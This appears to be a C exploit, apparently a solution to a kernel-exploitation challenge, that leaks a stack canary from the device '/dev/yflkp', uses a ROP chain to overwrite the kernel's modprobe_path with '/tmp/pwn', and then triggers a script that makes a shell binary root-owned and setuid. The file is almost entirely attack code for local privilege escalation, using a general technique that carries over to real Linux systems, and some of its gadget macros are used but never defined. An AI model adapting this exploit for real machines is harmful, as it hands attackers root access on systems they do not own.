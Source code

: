 ```c
#define G_BUF 0xffffffffc0203580
#define MODPROBE_PATH 0xffffffff82dd82a0

#define MEMCPY_ADDR 0xffffffff820c0910
#define PLACE_TO_RETURN 0xffffffff814921b4

#define SHL_B(x, n) (x << (8 * n)) & MASK
#define SHR_B(x, n) (x >> (8 * n)) & MASK

void write_modprobe_path() {
    int fd = open("/dev/yflkp", O_RDWR);

    char buf[0x40] = {0};
    read(fd, buf, 0x38);
    unsigned long long canary = *(unsigned long long *)&buf[0x30];
    printf("canary : %llx\n", canary);

    unsigned long long ROP[] = {
        POP_RDX_RET, 0x10, 
        POP_RDI_RET_0xB, MODPROBE_PATH, 
        POP_RSI_RET_0x1, 0, SHL_B(G_BUF, 3), 
        SHR_B(G_BUF, 5) | SHL_B(RET_0x4, 3), 
        SHR_B(RET_0x4, 5) | SHL_B(RET, 4), SHR_B(RET, 4), 
        MEMCPY_ADDR, RET, 
        PLACE_TO_RETURN
    };
    char payload[0x50 + 0x68 + 1] = {0};
    *(unsigned long long *)&payload[0x30] = canary;
    memcpy(payload, "/tmp/pwn", 8);
    memcpy(&payload[0x50], ROP, 0x68);
    write(fd, payload, 0x50 + 0x68);

    close(fd);
}


void trigger() {
    system("mv /home/user/shell /tmp");

    FILE *fp = fopen("/tmp/pwn", "w");
    fprintf(fp, "#!/bin/sh\n");
    fprintf(fp, "chown 0:0 /tmp/shell\n");
    fprintf(fp, "chmod 4755 /tmp/shell\n");
    fclose(fp);

    fp = fopen("/tmp/trigger", "wb");
    fwrite("\xff\xff\xff\xff", 4, 1, fp);
    fclose(fp);

    chmod("/tmp/pwn", 0755);
    chmod("/tmp/trigger", 0755);
    system("/tmp/trigger");
}


int main() {
    write_modprobe_path();
    trigger();

    return 0;
}
```
